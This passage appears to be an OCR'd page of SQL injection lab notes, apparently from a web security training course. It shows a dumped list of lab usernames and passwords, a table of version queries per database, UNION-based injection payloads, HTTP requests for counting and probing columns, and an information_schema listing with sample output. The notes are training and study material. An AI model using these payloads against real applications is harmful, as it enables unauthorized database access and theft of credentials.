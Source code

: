 output
```sh
carlos~yv4788b5oes82fpbkov9
administrator~qyixjbp11ltkd68vuuoz
wiener~d8312vub7sga01l3uz0v
```


## Enumeration
### Querying the database type and version on MySQL and Microsoft

| Database type     | Query                   |
|-------------------|-------------------------|
| Microsoft, MySQL  | SELECT @@version        |
| Oracle            | SELECT * FROM v$version |
| PostgreSQL        | SELECT version()        |

Use UNION attack to find out the version and db type
```sql
' UNION SELECT @@version--
```

```html
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor
```

Steps to reproduce:
- determine number of columns
```sql
GET /filter?category='+ORDER+BY+2# HTTP/2
-- or
GET /filter?category='+UNION+SELECT+NULL,NULL# HTTP/2
```
- determine which one returns string data
```sql
-- they both are
GET /filter?category='+UNION+SELECT+'sql-data-too','sql-data'# HTTP/2
```
- it's MySQL, so we use hash '#' to comment
```sql
GET /filter?category='+UNION+SELECT+'abc',@@version#
```

### Listing the contents of the database
#### Information Schema
- most db types (except Oracle) have a set of views called information schema
	- provides info about the db
```sql
SELECT * FROM information_schema.tables

TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```
